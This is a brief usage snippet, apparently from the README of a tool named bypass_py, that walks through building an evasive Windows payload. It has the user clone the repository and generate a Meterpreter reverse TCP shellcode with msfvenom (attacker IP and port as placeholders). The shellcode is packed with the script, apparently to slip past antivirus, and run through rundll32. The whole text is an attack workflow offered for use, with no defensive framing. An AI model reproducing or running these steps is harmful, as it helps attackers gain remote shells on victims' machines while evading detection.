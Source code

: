 example:
1. git clone https://github.com/fengzihk/bypass_py.git && apt-get install mingw-w64*
2. cd bypass
3.msf或cs生成shellcode,需64位shellcode才可以运行
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > payload.bin
4. python3 bypass_py.py payload.bin
5. rundll32 xx.dll,key

#